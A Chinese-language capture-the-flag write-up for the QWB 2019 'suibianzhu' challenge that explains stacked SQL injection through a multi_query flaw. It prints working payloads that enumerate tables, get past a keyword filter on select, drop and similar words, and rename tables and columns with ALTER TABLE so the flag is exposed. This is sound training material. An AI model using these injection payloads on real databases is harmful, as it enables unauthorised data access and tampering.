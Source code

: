 # [[强网杯 2019]随便注](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)

## 知识点

- 堆叠注入
- 漏洞点：`multi_query`

## 方法1_修改表名

1. 容器运行起来，只有一个输入框，结合题目名字可能是`sql注入`   

![](./img/onlysearch.png)    

2. 进行输入测试

- 输入框：`1`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

```
- 输入框：`1'`,返回    
```
error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
```
输入框：`1"`,返回    
```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}
```
`sql`语句是使用`'`进行闭合的

- 输入：`1' or 1=1;`，看一下这个表所有数据    
    - 表中总共只有三条数据，没有发现`flag`的痕迹    

![](./img/allinfointable.png)   

输入`1`，`2`和`114514`以外的数据返回为空

- 输入：`1' or 1=1;show tables;`，看一下这个库所有表    
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

- `words`和`1919810931114514`表都感觉像藏`flag`的表。输入：`1' or 1=1;select * from 1919810931114514;`，看一下`1919810931114514`这个奇奇怪怪的表中有没有`flag`   
```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
被识别了，不能运行，不能使用`select|update|delete|drop|insert|where|\./i`这些    

- 不能查看表中数据，只能看表结构……   
输入：
```
1' or 1=1;desc `1919810931114514`;
```

![](./img/desctable.png)    

找到了`flag`可能隐藏的字段，但是不准使用`select`。而且网站默认查询的表是`words`     
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

3. 到现在能够得到一下信息：
    - 网站的查询语句应该是：`sql='select * from words where id = '%id`
    - `flag`应该就藏在`1919810931114514`表的`flag`字段
    - 输入中不能带有`select|update|delete|drop|insert|where|\./i`这些敏感词

想要`flag`就必须有`select`，但是又限制了`select`输入……

4. 根据[其他人的writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)找到了突破点：**改名**！将`1919810931114514`改成`words`，`flag`字段改成`id`,就可以直接使用原本就有的`select`
```sql
1' or 1=1;alter table `words` rename to `no_use`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);show tables;desc `words`;# 
```   

![](./img/changetableandflag.png)    

5. 数据库修改成功，现在直接输入`1' or 1=1;`就可以得到`flag`啦   

![](./img/suibianzhu_flag.png)    

## 其他解题步骤

- 后来又发现这道题还有其他[解法](https://www.cnblogs.com/chalan630/p/12583667.html)

## 参考资料

- [题目对应容器-CTFTraining](https://github.com/CTFTraining/qwb_2019_supersqli/tree/0787e6a8273a78a8b237b08c034851f47cf20d6c)
- [[强网杯 2019]随便注-writeup](https://blog.csdn.net/weixin_45642610/article/details/112337143)
- [[强网杯 2019]随便注-三种解题方法](https://www.cnblogs.com/chalan630/p/12583667.html)